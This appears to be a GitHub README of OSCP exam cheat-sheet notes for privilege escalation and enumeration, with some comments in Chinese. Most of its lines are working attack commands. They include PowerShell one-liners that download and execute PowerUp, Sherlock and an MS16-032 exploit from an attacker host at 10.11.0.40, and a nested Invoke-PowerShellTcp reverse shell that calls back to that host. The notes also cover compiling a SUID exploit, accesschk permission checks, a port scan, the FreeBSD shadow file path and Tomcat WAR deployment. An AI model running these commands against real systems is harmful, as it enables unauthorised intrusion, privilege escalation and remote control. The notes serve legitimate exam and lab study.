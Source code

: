# for-oscp
some notes ,scripts
# 本地编译exp 如果目标机器没有gcc
gcc -m32 -Wl,--hash-style=both -o suid suid.c
# accesschk.exe usage

accesschk.exe -uwcqv "Users" * /accepteula
accesschk.exe -ucqv [service_name] 
# windows powershell priv sc 
# powerup for basic check
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/PowerUp.ps1'); Invoke-AllChecks
# sherlock for kernel check
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/Sherlock.ps1') ; Find-AllVulns
# ms16-032
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/ms16_032_intrd_mod.ps1');Invoke-MS16-032 \
"-NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.40:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.0.40 -Port 445\" "

# export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin"

# freebsd shadow file is /etc/spwd.db

# WINDOWS/setupapi.log /usr/share/seclists/Fuzzing/Windows-Attacks.fuzzdb.txt  some windows local files

# unicorn scan
unicornscan -i tap0 -Ir 160 10.11.1.22:1-4000

# tomcat manager console deploy war 
10.11.1.209:8080/[war_name]  


